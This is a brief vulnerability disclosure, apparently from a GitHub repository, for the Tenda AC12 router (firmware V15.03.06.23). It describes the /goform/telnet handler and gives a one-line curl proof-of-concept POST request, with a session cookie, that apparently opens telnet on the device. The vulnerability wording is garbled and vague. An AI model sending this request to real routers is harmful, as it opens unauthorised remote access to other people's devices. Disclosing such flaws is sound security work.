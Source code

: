 ## Tenda AC12 telnet

### Overview

* Vendor: Tenda

* Product: Tenda AC12
* Version:  V15.03.06.23

* Manufacturer's address：https://www.tendacn.com/
* Firmware download address ：https://static.tenda.com.cn/tdcweb/download/uploadfile/AC1206/US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.zip

### Vulnerability details

An issue was discovered in Tenda AC12 V15.03.06.23. An HTTP request within the handler function of the /goform/telnet route. This could lead to Shell Metacharacters.![image](./img/1.png)

#### PoC

```
 curl ‐i ‐X POST http://192.168.0.1/goform/telnet ‐d aa=aa ‐‐cookie "password=f6df9d1c0835927e379ccc302
 b848f4aouh1qw"
```

![image-20250413210610225](./img/2.png)
